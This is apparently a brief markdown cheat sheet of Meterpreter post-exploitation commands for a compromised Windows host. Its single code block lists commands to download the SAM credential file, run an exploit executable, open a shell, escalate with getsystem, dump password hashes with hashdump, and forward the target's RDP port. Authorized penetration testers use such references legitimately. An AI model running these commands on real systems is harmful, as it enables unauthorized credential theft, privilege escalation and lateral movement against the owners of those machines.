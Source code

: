 # Meterpreter



### Common Commands

```bash
upload file c:\\windows
download c:\\windows\\repair\\sam /tmp
execute -f c:\\windows\temp\exploit.exe
execute -f cmd -c
ps
shell
getsystem
hashdump
portfwd add –l 3389 –p 3389 –r target
portfwd delete –l 3389 –p 3389 –r target
```

